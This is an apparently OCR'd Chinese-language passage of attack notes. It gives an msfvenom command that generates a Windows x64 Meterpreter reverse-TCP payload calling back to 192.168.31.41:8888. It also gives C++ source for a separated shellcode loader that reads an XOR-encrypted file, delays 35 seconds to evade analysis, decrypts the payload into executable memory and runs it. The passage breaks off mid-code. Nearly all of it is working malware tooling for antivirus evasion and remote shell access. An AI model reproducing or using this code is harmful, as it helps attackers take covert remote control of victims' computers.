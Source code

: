 生成木马，本来想用 https，但是上不了线，只能用 tcp 了

```plain
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.31.41 LPORT=8888 -f raw -o test.txt
```

写了分离的 shellcode 加载器：

```plain
#include <iostream>
#include <fstream>
#include <vector>
#include <Windows.h>

char Key[7] = { 'Y', 'U', 'Z', 'S', 'O', 'F', 'T' };
// 解密函数
int keyLength = 7;

void decrypt(std::vector<unsigned char>& encryptedData) {
    int keyIndex = 0; // 初始密钥索引为 0

    for (size_t i = 0; i < encryptedData.size(); ++i) {
        encryptedData[i] = encryptedData[i] ^ Key[keyIndex]; // 使用当前密钥进行异或解密
        keyIndex = (keyIndex + 1) % keyLength; // 更新密钥索引，确保在0到6之间循环
    }
}


int main() {

    // 读取 shellcode 从本地已经加密的 log 文件
    std::ifstream file("log.txt", std::ios::binary);
    std::vector<unsigned char> shellcode;


    if (file) {
        file.seekg(0, std::ios::end);
        size_t size = file.tellg();
        shellcode.resize(size);

        file.seekg(0, std::ios::beg);
        file.read(reinterpret_cast<char*>(shellcode.data()), size);
        file.close();
    }
    else {
        std::cout << "open file fail" << std::endl;
        return 1;
    }
    Sleep(35000);
    decrypt(shellcode);
    // 分配内存
    LPVOID allocMem = VirtualAlloc(NULL, shellcode.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (allocMem == NULL) {
        std::cout << "内存分配" << std::endl;
        return 1;
    }
    // 将 shellcode 拷贝到分配的内存中
    memcpy(allocMem, shellcode.data(), shellcode.size());
    // 执行 shellcode
    typedef void (*ShellcodeFunction)();
    ShellcodeFunction func = (ShellcodeFunction)allocMem;
    func();

    // 释放内存
```